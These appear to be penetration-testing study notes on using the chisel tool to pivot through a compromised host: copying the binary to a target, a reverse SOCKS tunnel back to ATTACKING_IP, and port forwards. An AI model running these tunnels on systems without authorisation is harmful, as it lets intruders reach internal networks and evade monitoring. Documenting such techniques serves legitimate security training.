 https://github.com/jpillora/chisel/releases

`scp -i KEY chisel user@target:/tmp/chisel-USERNAME`

- Reverse proxy:
	- Our machine: Run using `./chisel server -p LISTEN_PORT --reverse &`
	- pivot host: `./chisel client ATTACKING_IP:LISTEN_PORT R:socks &`
	- NOTE: port to send proxy data is found in console after running above command on our host

- Forward SOCKS proxy (bind shell but for proxy):
	- First, on the compromised host we would use: `./chisel server -p LISTEN_PORT --socks5`
	- On our own attacking box we would then use: `./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`
- Reminder: USE PROXY CHAINS WITH **SOCKS5** AND UPDATE PORT
- Remote Port Forward:
	- `./chisel server -p LISTEN_PORT --reverse &`
	- `./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`
	- Here the LISTEN_PORT is the port that we started the chisel server on, and the LOCAL_PORT is the port we wish to open on our own attacking machine to link with the desired target port.
- Local Port Forward:
	- Comp host: `./chisel server -p LISTEN_PORT`
	- Our host: `./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`